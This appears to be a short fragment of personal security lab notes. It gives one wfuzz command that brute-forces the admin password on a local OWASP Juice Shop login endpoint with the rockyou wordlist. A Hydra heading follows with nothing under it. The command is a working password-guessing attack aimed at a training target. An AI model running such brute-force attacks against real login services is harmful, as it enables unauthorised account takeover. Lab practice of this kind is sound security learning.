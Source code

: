 # WFUZZ

Basic command: ``wfuzz -u http://localhost:3000/rest/user/login -d '{"email":"admin@juice-sh.op","password":"FUZZ"}' -H "Content-Type: application/json" -w /usr/share/wordlists/rockyou.txt``


# HYDRA